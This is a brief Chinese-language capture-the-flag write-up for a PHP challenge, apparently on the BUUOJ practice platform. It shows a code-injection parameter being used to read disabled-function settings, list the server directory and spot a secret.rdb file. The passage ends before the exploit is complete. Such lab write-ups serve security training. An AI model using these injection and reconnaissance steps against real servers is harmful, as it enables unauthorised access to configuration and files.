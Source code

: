 # InterestingPHP

这题有点恶心了,直接把phpinfo都ban了

不过可以试试其他方法来读取配置信息

```
var_dump(get_cfg_var("disable_functions"));
var_dump(get_cfg_var("open_basedir"));
var_dump(ini_get_all());
```

![image-20220217193017262](images/14.png)

还是ban了有这么多函数

那先看看当前目录下的文件

```
http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=print_r(scandir("."));
```

![image-20220217192836680](images/15.png)

有个secret.rdb

highlight这些读文件的还在

![image-20220217193052775](images/16.png)
